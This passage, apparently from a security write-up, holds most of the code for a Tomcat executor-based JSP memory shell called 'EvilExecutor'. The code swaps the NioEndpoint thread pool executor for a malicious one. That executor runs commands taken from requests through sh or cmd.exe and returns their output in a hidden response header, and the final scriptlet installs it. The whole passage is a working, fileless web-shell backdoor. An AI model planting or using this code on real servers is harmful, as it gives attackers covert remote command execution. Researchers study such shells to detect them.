                    ArrayList processors = (ArrayList) getField(getField(getField(nioEndpoint, "handler"), "global"), "processors");
                for (Object processor : processors) {
                    RequestInfo requestInfo = (RequestInfo) processor;
                    Response response = (Response) getField(getField(requestInfo, "req"), "response");
                    response.addHeader("set-message", new String(res, StandardCharsets.UTF_8));
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public void execute(Runnable command) {
            String cmd = getRequest();
            try {
                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    getResponse(output.getBytes());
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getNioEndpoint();
    ThreadPoolExecutor executor = (ThreadPoolExecutor) nioEndpoint.getExecutor();
    nioEndpoint.setExecutor(new EvilExecutor(executor.getCorePoolSize(), executor.getMaximumPoolSize(),
            executor.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, executor.getQueue(),
            executor.getThreadFactory()));
    response.getWriter().write("Executor Inject Successfully...");
%>
```


